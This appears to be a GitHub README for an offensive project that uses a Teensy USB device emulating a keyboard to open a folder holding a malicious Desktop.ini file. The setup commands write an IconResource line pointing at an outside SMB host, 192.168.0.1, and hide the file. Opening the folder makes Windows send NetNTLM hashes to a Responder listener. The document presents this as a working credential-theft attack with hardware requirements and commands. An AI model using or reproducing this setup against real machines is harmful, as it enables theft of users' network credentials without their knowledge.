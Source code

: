 # Goal

Put a malicious Desktop.ini file on a USB Stick in order to perform a SMB request on the network. The SMB request will be sent to Responder ;)
Idea came from: https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/ 

In order to help the user to open the malicious folder, autorun will be emulated with keyboard functionality from the Teensy.

# Requirements

Teensy 2 – 16$ - https://www.pjrc.com/store/teensy.html 
Micro SD support – 8$ - https://www.pjrc.com/store/sd_adaptor.html 
3.3V Regulator – 1$ - https://www.pjrc.com/store/mcp1825.html 
SD Card

# Setup

## Hardware

Add SD Card support to your Teensy 2: https://www.pjrc.com/teensy/sd_adaptor.html

## Software

Upload the INO code to a Teensy 2 with a SD Card. On the SD card create a "test" folder and then configure your Desktop.ini file.

```
mkdir test
attrib +s test
cd test
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\192.168.0.1\aa >> desktop.ini
attrib +s +h desktop.ini
```
